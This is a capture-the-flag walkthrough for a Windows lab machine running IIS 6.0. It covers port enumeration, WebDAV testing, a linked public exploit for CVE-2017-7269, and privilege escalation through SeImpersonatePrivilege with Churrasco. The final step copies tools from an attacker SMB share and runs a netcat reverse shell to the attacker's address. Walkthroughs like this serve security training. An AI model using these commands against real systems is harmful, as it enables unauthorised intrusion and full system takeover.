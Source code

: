 # Grandpa - Windows, easy (10.10.10.14)

### Enumeration
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Server Date: Fri, 09 Sep 2022 19:55:42 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We can see that this is Microsoft IIS version 6.0 and it allows for a lot of options for the request parameter, so maybe we can upload a file.
We can test this with `davtest`:
```
root@kali# davtest -url http://10.10.10.14
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: NHwzc9ANv
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     html    FAIL
PUT     php     FAIL
PUT     txt     FAIL
PUT     jsp     FAIL
PUT     cfm     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     pl      FAIL
```

Unfortunately, we can't use PUT to upload a file.

Googling `IIS 6.0 exploit` we can notice a [script](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell) related to `CVE-2017-7269`.

Using it we can obtain a shell as user NETWORK SERVICE!

### From Network Service to System
We can check the privileges on the box using `whoami /priv`:
```

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

`SeImpersonatePrivilege` allows us to impersonate a client, we can try to exploit this using [Churrasco](https://github.com/Re4son/Churrasco/).
Downlaod the binary and in the same folder copy `nc.exe` (`cp /usr/share/windows-binaries/nc.exe`) and run `smbserver.py share .`.
In this way we can get the two binaries on the box!
Before this, we need to find a directory in which we have write permissions, trying the folders in `C:\`, we can notice that `wmpub` is writeable by all the users (WD):
```
C:\>icacls wmpub
wmpub BUILTIN\Administrators:(F)
      BUILTIN\Administrators:(I)(OI)(CI)(F)
      NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
      CREATOR OWNER:(I)(OI)(CI)(IO)(F)
      BUILTIN\Users:(I)(OI)(CI)(RX)
      BUILTIN\Users:(I)(CI)(AD)
      BUILTIN\Users:(I)(CI)(WD)
```

Now copy the binaries on the box:
```
C:\wmpub> copy \\10.10.14.13\share\nc.exe .
C:\wmpub> copy \\10.10.14.13\share\churrasco.exe .
```

Now run it, setting up a netcat listener on our machine:
```
C:\wmpub> .\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.13 443"
```

Now you can get both flags in Administrator and Harry folders!
